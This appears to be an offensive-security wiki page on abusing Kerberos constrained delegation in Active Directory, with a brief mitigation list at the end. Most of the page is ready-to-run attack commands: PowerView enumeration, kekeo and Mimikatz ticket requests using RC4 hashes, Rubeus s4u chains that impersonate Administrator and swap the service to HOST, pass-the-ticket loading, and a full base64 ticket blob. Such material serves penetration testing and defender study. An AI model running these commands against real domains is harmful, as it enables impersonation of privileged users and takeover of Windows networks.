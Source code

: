 # Constrained Delegation

## Constrained Delegation

Using this a Domain admin can allow 3rd parties to impersonate a user or computer against a service of a machine.

* **Service for User to self (**_**S4U2self**_**):** If a **service account** has a _userAccountControl_ value containing [TRUSTED\_TO\_AUTH\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) (T2A4D), then it can obtains a TGS for itself (the service) on behalf of any other user.
* **Service for User to Proxy(**_**S4U2proxy**_**):** A **service account** could obtain a TGS on behalf any user to the service set in **msDS-AllowedToDelegateTo.** To do so, it first need a TGS from that user to itself, but it can use S4U2self to obtain that TGS before requesting the other one.

**Note**: If a user is marked as ‘_Account is sensitive and cannot be delegated_ ’ in AD, you will **not be able to impersonate** them.

This means that if you **compromise the hash of the service** you can **impersonate users** and obtain **access** on their behalf to the **service configured** (possible **privesc**).\
Also, you **won't only have access to the service that user is able to impersonate, but also to any service that uses the same account as the allowed one** (because the SPN is not being checked, only privileges). For example, if you have access to **CIFS service** you can also have access to **HOST service**.\
Moreover, notice that if you have access to **LDAP service on DC**, you will have enough privileges to exploit a **DCSync**.

{% code title="Enumerate from Powerview" %}
```bash
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
{% endcode %}

{% code title="Using kekeo.exe + Mimikatz.exe" %}
```bash
#Obtain a TGT for the Constained allowed user
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
#Get a TGS for the service you are allowed (in this case time) and for other one (in this case LDAP)
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLAR CORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
#Load the TGS in memory
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~ dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'  
```
{% endcode %}

{% code title="Using Rubeus " %}
```bash
#Obtain a TGT for the Constained allowed user
.\Rubeus.exe asktgt /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /outfile:TGT_websvc.kirbi
#Obtain a TGS of the Administrator user to self
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /impersonateuser:Administrator /outfile:TGS_administrator
#Obtain service TGS impersonating Administrator (CIFS)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /outfile:TGS_administrator_CIFS
#Impersonate Administrator on different service (HOST)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /altservice:HOST /outfile:TGS_administrator_HOST
#Load ticket in memory
.\Rubeus.exe ptt /ticket:TGS_administrator_CIFS_HOST-dcorp-mssql.dollarcorp.moneycorp
```
{% endcode %}

{% code title="Other Method (Rubeus)" %}
```
Rubeus.exe tgtdeleg 
.\Rubeus.exe s4u
/ticket:doIE9jCCBPKgAwIBBaEDAgEWooIEBTCCBAFhggP9MIID+aADAgEFoQsbCU0zQy5MT0NBT
KIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IDwzCCA7+gAwIBEqEDAgECooIDsQSCA6
3MkP00gTXk3eKQPGJKfoYjY3I3Bg0T6zCZVoQOLPIWI0qR7oMkgRcV1bQ6iyTdAfbbWeuR/IK7osn
RC4EckM+t7QvA4Qnr0t6EJtFNEexa2NG5F9sOv5tlDVSRmFec2+zvw5CDv+sO9dgnOFCPv9rxW40F
Dyz41ccdLuHiRIUT5IgBfT8FR+KF87vc+fFwVDlbqETlzmXUH0or334+YUMdjJDahw/UZAgZh9/U/
hGpqsHdhujNsgJR+MCARBAuC+1PLtzDrRLFR8/Ay4svRr1KAQN7KVopt2FeMUAtWy2QTHWyMFvl7b
5sR4jk0INj5p97Iy1/c9K8V/H0B56PCcUxib+z2SxYZ0koNgsTRI4VwmLxXG7lNu512/fUrLxpcbP
fnAuGAqZuUAKcZquReDRNp3FaKNSphWoY3nTO2ays4hUq3Skhhn3TybM1yg7l4yzdeS+fbBOJ76O2
RpvaMJk3OjTgbMftyKl3nx8yI4Knlxxj0XixHaS3L2lLGfWeCiRaSnJhRq1A10QA/7IMU+V4MkVLf
3sxz4A1TCESHuO2lWvMud3QACJiQlp+uZc8mzKDSHzq8ZUXfHwUw5GjnsMz+n05o+a5/HiGtTzysX
21IukfnHrGDQd2EHd8XVSfhI5ntxhAny3P8WKcBDy5J3gDLqjGZAQA5TeZril/HKT64uk/S8rmOr5
BSQJGZxXpzMyTs38D1Szi2oGADeSF7mZoN3BS8ebkBgxqxJaOxAnFeGlRjao6je79encUOS/iWmfv
ooGP296u8xB4y6Hki+1MLH7QFN2gVddZ5UTZKsE45qZzixEfOa8qKbejb/dCAgAquNCKpbL/2VGCJ
whPrDVVRDZFNy6DBZ29wZI3GjhcSU/K2JnN8vIe0EpHOaPgHVIF19tGzyioeTZdedjRCC7P6LCEUc
rojWbXJt8bxP3BbJN6Bdp9nwTogKf3OONJhapRn0PfZZQYQdZ0tEd3RNAmqCyWEf5tbUd+wyjwjVE
2cdObubHOJQtcXiMxZF7G9YReg/XzGybX4hkindZyS/9jkff4BiIaMk/e7L66ASIT4EeaIiSwS9tn
fCiJxBb59Arn7WYIH+srTRSCYbssbSiCghUW15km5fo4KnVNO6UIWDxdk0JZ+z5JnkL6TGo0++bLX
dOAyPXDWoPmCbLA3jyFebHN98jzzPZgotC7vFpTv8h5jJ5zNeIxcN7PHr+qMRbBISMxxB6mkHFB1g
8yubytnDET6Wx4LUm3OIzqRaOB3DCB2aADAgEAooHRBIHOfYHLMIHIoIHFMIHCMIG/oCswKaADAgE
SoSIEID46bIOxprG+RsD6AyYyOB2Izk7AINDtf+FOAXDBbdlioQsbCU0zQy5MT0NBTKIUMBKgAwIB
AaELMAkbB3N2Y19zcWyjBwMFAGChAAClERgPMjAyMDA0MjIwOTEwNDFaphEYDzIwMjAwNDIyMTkwM
DAxWqcRGA8yMDIwMDQyOTA5MDAwMVqoCxsJTTNDLkxPQ0FMqR4wHKADAgECoRUwExsGa3JidGd0Gw
lNM0MuTE9DQUw= /impersonateuser:svc_apache /domain:m3c.local
/msdsspn:time/M3WEBAW.M3C.LOCAL /dc:M3DC.M3C.LOCAL /ptt
```
{% endcode %}

### Mitigation

* Disable kerberos delegation where possible
* Limit DA/Admin logins to specific services
* Set "Account is sensitive and cannot be delegated" for privileged accounts.

[**More information in ired.team.**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)

